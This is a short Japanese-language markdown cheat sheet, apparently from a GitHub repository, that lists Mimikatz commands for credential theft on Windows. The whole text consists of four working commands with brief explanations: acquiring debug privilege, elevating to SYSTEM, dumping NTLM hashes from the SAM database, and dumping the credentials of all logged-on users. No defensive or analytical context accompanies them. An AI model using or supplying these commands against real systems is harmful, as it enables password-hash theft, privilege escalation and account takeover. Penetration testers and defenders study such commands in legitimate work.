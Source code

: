 # Mimikatz
[Documentation]()

## コマンド集

1. Mimikatzのプロセスにデバッグ権限を要求して、認証情報の抽出を可能にする。SeDebugPrivlege権限を取得する。
```
privilege::debug
```

2. SYSTEM権限に昇格する
```
token::elevate
```

3. SAMデータベースからユーザのNTLMハッシュをダンプする
```
lsadump::sam
```

4. Sekurlsaモジュールを使ってログオンしているすべてのユーザの資格情報、ハッシュをダンプする
```
sekurlsa::logonpasswords
```